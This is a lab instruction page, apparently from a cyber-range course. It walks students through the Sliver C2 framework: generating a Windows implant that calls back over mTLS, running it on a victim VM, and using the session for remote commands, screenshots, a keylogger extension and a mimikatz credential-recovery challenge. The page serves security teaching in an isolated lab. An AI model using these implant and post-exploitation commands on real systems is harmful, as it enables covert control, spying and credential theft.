> **Disclaimer:** The purpose of the lab environment is solely for educational and research purposes within the context of authorized and supervised activities. This lab environment is established to facilitate learning, analysis, and understanding of malware and related cybersecurity concepts. The malware lab environment is equipped with security measures to prevent unauthorized access and the spread of malware. However, it is essential to exercise caution and follow established protocols to minimize the risk of accidental exposure, infection, or unintended distribution of malware.

# Sliver C2 Botnet Instructions
Sliver is an open-source command and control (C2) botnet framework designed for educational purposes. The framework consists of a main server component that allows the deployment and management of botnet infrastructure. The server facilitates communication with the botnets.

C2 infrastructure operates by establishing a connection from the victim's machine back to the controller using outbound communication through well-known ports, such as HTTP. Typically, firewalls block incoming communication, but outbound communication through HTTP is commonly allowed. C2 botnet infrastructure exploits this by having the Sliver server listen for incoming communication from the botnet victims.

When a victim's machine is compromised and becomes part of the botnet, it runs with user privileges. This allows the controller to issue various commands to the botnet, essentially giving the controller control over the actions the victim machine performs. Consequently, the controller can carry out malicious activities using the compromised machines.

Please note that in your lab environment, all protection measures are disabled. However, in a real-world scenario, botnets can be thwarted by using up-to-date anti-malware software to prevent the initial implant from executing. If the initial infection occurs, it becomes more challenging to detect and stop the botnet's C2 communication, as the botnet attempts to camouflage itself as regular network traffic.

It is crucial to conduct these experiments and study the botnet framework within a controlled and strictly educational environment. The knowledge gained can contribute to understanding botnet behaviors, detecting and mitigating potential threats, and reinforcing cybersecurity practices.

## Accessing your Servers
You have 2 servers in your lab:
* **sliver-server**: Ubuntu server with the role of command and control of the botnet.
* **sliver-victim**: A test victim server used for installing implants.

> **Information:** When connecting to servers, it may be best to open this in an incognito browser to avoid caching the credentials used to connect. Only connect to one of the servers at a time, and then, only in incognito mode.

![image](https://github.com/emerginganalytics/cyberarena/assets/50710945/4b1ffb77-62f5-4208-89e7-fd88ef5be39c)

### Start and Run Sliver
Open the Sliver server interface, which will be an SSH command prompt. Run the following commands to start Sliver. If promted for the sudo password, enter in `Let's workout!`
```
sudo systemctl start sliver
sudo sliver
```
You should then see a prompt similar to the one below:
![image](https://github.com/emerginganalytics/cyberarena/assets/50633591/4e87efc9-669f-4d72-b099-308bf03cd49b)

### Generating the Implant
Run the following command to generate the botnet malware. This will take a few minutes and when it completes a new executable with an arbitrary name will be saved in the student directory indicated.
```
generate --mtls 10.1.1.20 --os windows --arch amd64 --format exe
```
When you create your implants, move them to the `/srv/sliver` folder on the Sliver server and change the permissions to allow execution in the commands below. Make sure you exit the sliver prompt by typing in `exit`.
```
sudo cp ./<RANDOM_NAME>.exe /srv/sliver/
sudo chmod 777 /srv/sliver/<RANDOM_NAME>.exe
```
The `cp` command means copy and it copies the executable you just created to a directory /srv/sliver. For the nerds out there, a SAMBA server is running on the Ubuntu system that allows Windows systems to navigate to the executable using network shares.

Now you'll want to start the Botnet server so it will listen for the victim to communicate back to it. Run the following:
```
sudo sliver
sliver > mtls
```
Sliver is now waiting for clients to communicate back with it.

### Open your Victim Machine
Then, the malware can be accessed by your Windows server, sliver-victim, by opening a file explorer and navigating to `\\10.1.1.20\sliver`

Double click to run the executable. Nothing will happen, but the C2 backchannel communication will be established.

### Use Botnet Server
Go to the sliver-server and you should see a line like this:
```
[*] Session 40ecf1dd ...
```
This lets you know that a C2 channel is open to the victim. You can use this channel by typing:
```
use 1 (replace '1' with the first character of your session ID)
```
You can also list the sessions by typing `sessions` and find the session ID of the victim PC.

You can run commands similar to the following:
```
sliver (RANDOM_NAME) > info             # This will show you information about the remote PC
sliver (RANDOM_NAME) > execute calc     # Open the calculator application on the desktop
sliver (RANDOM_NAME) > execute notepad  # Open the notepad application on the desktop
```
Some other interesting commands:
```
sliver (RANDOM_NAME) > cat /users/cyberarena/sample.txt   # dumps the contents of a text file
sliver (RANDOM_NAME) > screenshot                         # Generate a current screenshot. You can move this to the /srv/sliver directory to view it
```

### Sliver Armory
The Sliver armory 
```
sudo sliver                               # If you're not already in the console.
sliver > armory install raw-keylogger     # Install a keylogger extension
sliver > user 1                           # Replace with the session ID
sliver (RANDOM_NAME) > raw-keylogger 1    # Starts the remote keylogger. You can go to the victim machine and type into a notepad.
sliver (RANDOM_NAME) > raw-keylogger 2    # Captures the keylogger output.
```
> **Challenge:** There's a secret password on the victim. See if you can use mimikatz through the Armory to recover the password.

### Sliver Network Communication Monitoring
You can observe the network traffic used by Sliver through the Wireshark application on the Windows victim desktop. Double click on Wireshark and include the filter `host 10.1.1.20` similar to the screenshot below, but make sure to use the IP address 10.1.1.20.
![image](https://github.com/emerginganalytics/cyberarena/assets/50633591/88443e75-ad85-402d-9bf3-19df26b92fe0)

You will start to see traffic coming across periodically. Here, you can observe the protocol used by Sliver.
